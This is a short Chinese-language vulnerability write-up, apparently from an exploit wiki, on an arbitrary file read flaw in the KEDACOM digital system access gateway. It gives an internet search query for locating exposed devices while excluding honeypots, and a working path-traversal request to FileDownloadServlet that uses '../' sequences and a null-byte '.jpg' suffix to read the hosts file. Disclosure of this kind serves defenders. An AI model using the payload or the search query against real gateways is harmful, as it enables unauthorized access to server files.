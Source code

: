 # KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>KEDACOM 数字系统接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/ked-1.png)



使用POC读取 /etc/hosts



```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```



![img](/assets/PeiQi-Wiki/img/ked-2.png)

